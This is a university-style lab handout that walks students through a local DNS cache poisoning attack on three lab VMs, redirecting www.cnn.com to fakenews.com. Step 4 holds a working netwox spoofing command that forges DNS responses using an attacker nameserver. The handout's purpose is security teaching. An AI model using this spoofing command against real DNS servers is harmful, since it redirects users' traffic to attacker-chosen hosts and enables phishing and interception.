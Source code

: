 ## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker.

### Steps

Step 1: On DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

Step 2: On DNS Server: remove existing cache:

```console
# sudo rndc flush
```

Step 3: On Victim Client, configure DNS server information, i.e., let the client know the IP address of the DNS server.
Step 3.1: add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your Victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)
nameserver DNS_SERVER_IP
Step 3.2: run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```

Step 4: On Attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 03/17/2022): 188.126.71.216 (you can use ping command to confirm it)

Explanation: '--spoofip raw' means to spoof at IP4/IP6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

Step 5: on Victim Client, send a query.

```console
# dig www.cnn.com 
```

Note: if your dig command shows www.cnn.com is mapped to 188.126.71.216, then it means the attack is successful; if it's not mapped to this IP address, it means you're not on the right track.

Step 6. Stop the attack - press control-c on the Attacker VM's terminal. On Victim Client, open wireshark and repeat step 5 (i.e. run the dig command again), from the packets captured in wireshark, confirm the attack is still successful, and the forged response is indeed from the Victim DNS server.

Step 7. You are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.
